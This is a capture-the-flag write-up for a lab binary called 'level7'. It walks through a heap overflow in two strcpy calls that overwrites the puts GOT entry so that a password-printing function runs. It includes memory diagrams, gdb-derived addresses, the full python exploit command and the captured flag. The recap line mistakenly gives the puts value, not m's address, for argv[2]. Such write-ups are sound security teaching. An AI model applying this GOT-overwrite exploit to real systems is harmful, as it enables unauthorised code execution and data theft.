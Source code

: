 # level7

This level is similar to `level6`. The executable does the following :

- Four `malloc(8)` in a row
- `first[1]` points to the second
- `third[1]` points to the fourth
- A first `strcpy` ; copies `argv[1]` into `first[1]` (the second malloc)
- A second `strcpy` ; copies `argv[2]` into `third[1]` (the fourth malloc)
- Read `level8/.pass` into global variable `c`
- Run a `puts`

An `m` function prints `c`, which is what we want. We want to replace `puts`' address in the GOT with `m`.

To do this, we'll exploit the `strcpy` calls again.

## The value

Cutter reveals the address of `m`, our spoofed value : `0x080484f4`.

Formatted, this is `\xf4\x84\x04\x08`.

## The addresses 

By running the executable in `gdb`, breaking after the `malloc`s and running `p/x $eax`, we get the addresses :

- `p1` is at `0x804a008`
- `var` is at `0x804a018`
- `p2` is at `0x804a028`
- `var` is at `0x804a038`

Let's draw the memory :

```
 0x0804a008                                          0x0804a018
[0x00000000   0x00000000]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x00000000   0x00000000]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1] -------------------------------> var2
```

As thing stand, the `strcpy` will replace `var1` and `var2`.

Let's fill the memory with what's in memory at runtime :

```
 0x0804a008                                          0x0804a018
[0x00000001   0x0804a018]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x00000002   0x0804a038]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1] -------------------------------> var2
```

## The exploit

Here's what we can do :
- Exploit the first `strcpy` to overwrite `p2[1]`
- Exploit the second `strcpy`, which now points to our spoofed address, with `m`'s value

The first `strcpy` starts at `var1` ; there's 20 bytes to `p2[1]`.

We can fill with 20 `A` before replacing `p2[1]` with the GOT address of `puts` : `0x08049928` :

```
 0x0804a008                                          0x0804a018
[0x00000001   0x0804a018]  0x00000000   0x00000000  [0x41414141   0x41414141]  0x41414141   0x41414141
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x41414141   0x08049928]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1]                                  var2
                |
                \----------> 0x08049928  (puts GOT address)
                            [0x08048406] ----------> puts()
```

Now, we can use `argv[2]` to put the `m` function's value in the GOT table and tricks the program :

```
 0x0804a008                                          0x0804a018
[0x00000001   0x0804a018]  0x00000000   0x00000000  [0x41414141   0x41414141]  0x41414141   0x41414141
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x41414141   0x08049928]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1]                                  var2
                |
                \----------> 0x08049928  (puts GOT address)
                            [0x08048406]             puts()
                                  |
                                  \----------> m()
```

Now, the executable should run `m()` when trying to run `puts()`.

## The command

To recap, we need :

```
argv[1] = AAAAAAAAAAAAAAAAAAA0x08049928
argv[2] = 0x08048406
```

Or, from the command line :

```
argv[1] = $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")')
argv[2] = $(python -c 'print("\xf4\x84\x04\x08")')
```

We run :

```
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

## The flag

It works ! We get the `level7` flag :

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```